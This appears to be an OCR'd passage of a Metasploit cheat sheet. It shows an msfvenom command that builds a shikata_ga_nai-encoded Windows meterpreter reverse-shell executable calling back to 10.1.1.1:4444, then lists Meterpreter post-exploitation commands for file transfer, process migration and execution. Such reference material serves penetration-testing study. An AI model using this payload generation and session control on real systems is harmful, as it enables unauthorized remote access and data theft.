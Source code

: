 Example

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
```

### Metasploit Meterpreter

### Base Commands: 

? / help: Display a summary of commands exit / quit: Exit the Meterpreter session

sysinfo: Show the system name and OS type

shutdown / reboot: Self-explanatory

File System Commands:

cd: Change directory

lcd: Change directory on local (attacker's) machine

pwd / getwd: Display current working directory

ls: Show the contents of the directory

cat: Display the contents of a file on screen

download / upload: Move files to/from the target machine

mkdir / rmdir: Make / remove directory

edit: Open a file in the default editor (typically vi)

Process Commands:

getpid: Display the process ID that Meterpreter is running inside.

getuid: Display the user ID that Meterpreter is running with.

ps: Display process list.

kill: Terminate a process given its process ID.

execute: Run a given program with the privileges of the process the Meterpreter is loaded in.

migrate: Jump to a given destination process ID

- Target process must have same or lesser privileges

- Target process may be a more stable process

- When inside a process, can access any files that process has a lock on.

### Network Commands:

ipconfig: Show network interface information
